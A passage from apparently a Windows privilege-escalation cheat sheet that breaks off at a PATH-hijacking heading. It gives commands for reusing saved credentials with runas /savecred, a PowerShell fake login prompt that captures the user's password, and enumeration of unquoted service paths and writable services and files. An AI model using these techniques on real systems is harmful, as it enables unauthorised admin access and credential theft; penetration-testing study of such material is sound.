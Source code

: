 It's a windows utility that is used to store some credentials in windows apps like email or domain or other things.

you can view it using the command...

	cmdkey /list

Although you can't view those saved credentials you can use the option "/savecred" to use that saved credentials.

So let us assume that the admin credentials are stored there, then you can use the following command to get an admin cmd.

	runas /savecred /user:admin cmd.exe

# Credential Prompt

you can also just show a prompt for the user asking for the credentials using the following PowerShell one-liner "Don't forget to customize it for your target"

	$Cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $Cred.GetNetworkCredential().Password

# Unsecured Service Path

The service here is meant to be unsecured if its path name is unquoted and contains white space because windows once reach a white space in the string will treat the string before as the end of the path and will not continue until that string is not found, so you can use this trick to make it loads your executable as a service. "should have permission to write there"
To enumerate services...

	wmic service get name,displayname,pathname, startmode | findstr /i "auto" | findstr /i /v "c:windows\\" |findstr /i /v """

# Unsecured Service Configuration

You can check the services that can be modified by a non-privileged user or group using the sysinternal tool "accesschk.exe"

	accesschk.exe -accepteula -wu vc "users" *
	accesschk.exe -accepteula -k vuqsw hklm\System\CurrentControlSet\Services

# Unsecure File Permission

You can check for files that are writable by regular users

	accesschk.exe -accepteula -wus "users" C:\*.* > result.txt 

# PATH Hijacking 

You can query the system PATH using the command
